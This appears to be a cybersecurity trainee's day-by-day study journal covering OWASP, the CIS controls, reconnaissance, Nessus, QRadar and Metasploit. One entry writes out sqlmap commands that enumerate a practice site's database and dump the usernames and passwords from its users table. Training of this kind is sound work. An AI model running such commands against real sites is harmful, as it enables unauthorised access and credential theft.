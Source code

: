 # day-day Journal

--------------------------Week-1--------------------------<br>
<22 August> 10 Hackers and their accomplishments. <br>
<23 August> what vulnerabilities are available for a perticular port.<br>
<24 August> OWASP top 5 vulnerabilities and test it on a website.<br>
<25 August> How Servers Work understanding web app attack what is a attack? Plot vulnerabilities other than OWASP top 10<br>
<26-27 Aug> Exploit OWASP top 10<br>
----------------------------------------------------

--------------------------Week-2--------------------------<br>
<28 August> 10 web Server Attacks<br>
<29 August> 
Inventory and Control of Hardware Assets
Inventory and Control of Software Assets
Continuous Vulnerability Management
Controlled Use of Administrative Privileges
Secure Configuration for Hardware and Software on Mobile Devices, Laptops, Workstations and Servers
Maintenance, Monitoring and Analysis of Audit Logs Foundational
Email and Web Browser Protections
Malware Defenses
Limitation and Control of Network Ports, Protocols, and Services
Data Recovery Capabilities
Secure Configuration for Network Devices, such as Firewalls, Routers and Switches
Boundary Defense
Data Protection
Controlled Access Based on the Need to Know
Wireless Access Control
Account Monitoring and Control Organizational
Implement a Security Awareness and Training Program
Application Software Security
Incident Response and Management
Penetration Tests and Red Team Exercises<br>
<30 August> Understanding CIS Policy version 7and write about them<br>

<31 August> OFF DAY<br>

<1 September> Passive Reconnisence of a website without pinging it. What is OSNIT framework?<br>

--<2-3 September> Use 10 tools on kali available in the menu section.<br>
----------------------------------------------------<br>
--------------------------Week-3--------------------------<br>
<4 September> Scan any website to check the vulnerabilities in the website using nessus and make a report on it<br>
<5 September> Explore cheatsheet commands(Go through Nmap) and memorize the port nos<br>

<6 September> OFF DAY<br>

<7 September><br>
<8 September> sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump  [vulweb using sqlmap]<br>


*--<9-10 September> 
----------------------------------------------------<br>
--------------------------Week-4--------------------------<br>
<11 September> Doccumntation on What is Syn and SEIM.<br>
<12 September> Doccumentation on What is wincollect and StandAlone winollect<br>
<13 September> pick 4-5 logs from ibm qradar and doccument business impact. What is Local Security Policy in windows.<br>
<14 September> 3 Vulnerabilities exploitaion on metasploit<br>
<15 September> Doccumentation on burpsuit<br>
----------------------------------------------------
